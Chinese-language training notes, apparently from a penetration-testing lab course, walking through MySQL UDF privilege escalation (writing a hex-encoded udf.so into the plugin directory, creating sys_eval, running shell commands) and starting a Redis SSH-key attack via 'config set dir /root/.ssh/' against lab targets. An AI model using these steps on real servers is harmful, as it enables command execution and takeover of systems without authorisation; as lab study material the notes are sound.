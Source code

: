 frpc.ini配置：



# day02
## 下午
### mysql提权工具：【win下】     ?????????

下载 .so：
https://github.com/rapid7/metasploit-framework/tree/master/data/exploits/mysql
show variables like "%plugin%";

02.04-udfhex.txt

1、开通靶机，查看IP: 
终端
名称 linux弱口令_docker-mysql1_isUF
状态 运行中
IP信息/端口 IP(10.2.2.48)、端口(web/80)
CPU 1核
内存 1G
存储 (默认盘0G)

2、win VPN 启动 **openconnect-gui.exe**  【】

3、cmd窗口中 运行下面命令，进入mysql
mysql -h 10.2.2.48 -uroot -p

4、
show variables like "%plugin%";  【模糊匹配】

下载udf.so，用sublime显示为16进制，替换空格和回车后，复制插入下面的命令5中（02.04-udfhex.txt--回车怎么替换？）
subline中如何去掉回车:
1.选中需要操作的行
2.Ctrl + H 调出替换栏
3.在 Find 栏中输入(同时按这三个键) Ctrl + Shift + Enter , Replace 栏不填
4.按Replace All

notepad++ hex editor ??? ---复制粘贴到word中，替换

5、github下载一个.so，并编辑生成一个16进制文本???
select unhex("") into dumpfile '/usr/local/mysql/lib/plugin/udf.so';         【】
create function sys_eval returns string soname 'udf.so';    【】
select sys_eval('uname -a');   【】

![sys_eval() ???](vx_images/660047162287.png)

### redis 【秘钥，kali下，终端中运行VPN连接靶机，然后执行下面命令】

redis-cli -h 10.2.2.53
info


config set dir /root/.ssh/
